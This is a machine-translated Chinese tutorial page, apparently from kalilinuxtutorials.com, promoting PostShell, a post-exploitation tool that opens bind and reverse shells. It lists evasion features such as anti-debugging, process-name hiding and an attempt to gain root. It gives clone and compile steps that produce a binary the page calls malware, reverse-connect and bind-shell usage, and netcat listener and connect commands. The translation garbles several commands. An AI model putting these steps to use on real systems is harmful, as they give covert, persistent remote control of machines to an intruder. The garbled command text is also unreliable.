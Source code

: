 # Post Shell–利用后绑定/反向连接 Shell

> 原文：<https://kalilinuxtutorials.com/postshell-post-exploitation-bind-backconnect-shell/>

[![PostShell – Post Exploitation Bind/Backconnect Shell](img/fa9d4f5e7cd57a3ccff1c3e4fa9d87e8.png "PostShell – Post Exploitation Bind/Backconnect Shell")](https://1.bp.blogspot.com/-ISN0E4Apmn0/XYMGP2A7rjI/AAAAAAAACiU/ZO6_gx25qaAutODJQ-9qyF784U4M3hKWwCLcBGAsYHQ/s1600/img01%2B%25281%2529.png)

PostShell 是一个后开发外壳，包括绑定和后连接外壳。它创建了一个完全交互式的 TTY，允许作业控制。存根大小约为 14kb，可以在任何类似 Unix 的系统上编译。

**截图**

连接开始后与 shell 的横幅和交互。

![](img/180a45b9ecab9b910084ed3c0729943f.png)

**也读作-[Metame:用于任意可执行文件的变形代码引擎](https://kalilinuxtutorials.com/metame-metamorphic-code-engine/)**

为什么不使用传统的 Backconnect/Bind Shell？

PostShell 通过减少攻击者对 Python 和 Perl 等依赖项的依赖，使得后期利用更加容易。

它还结合了 back connect 和 bind shell，这意味着如果目标不允许传出连接，操作员可以简单地启动 bind shell 并远程连接到机器。

PostShell 也比传统的 Shell 不那么可疑，因为进程名和参数都被隐藏了。

**特性**

*   反调试，如果检测到 ptrace 连接到 shell，它将退出。
*   进程名/线程名被隐藏，一个假名字覆盖了所有的系统参数和文件名，使它看起来像一个合法的程序。
*   TTY，创建了一个 TTY，它基本上允许像通过 SSH 连接一样使用机器。
*   绑定/反向连接外壳，可以创建绑定外壳和反向连接。
*   小存根大小，通常生成非常小的存根(< 14kb)。
*   自动守护
*   尝试将 GUID/UID 设置为 0(根)

**入门**

**下载:git 克隆 https://github.com/rek7/postshell**

**编译:CD postshell&sh compile . sh 这应该会创建一个名为“存根”的二进制文件这就是恶意软件。**

**命令**

**$。/stub
绑定外壳用法:。/stub port
Back Connect 用法:。/存根 ip 端口
$**

**示例用法**

**回接:**

**$。/存根 127.0.0.1 13377**

**绑定外壳:**

**$。/存根 13377**

**接收与 Netcat 的连接**

**接收反向连接:**

**$ nc -vlp 端口**

**连接到绑定外壳:**

**$ nc 主机端口**

[**Download**](https://github.com/rek7/postshell)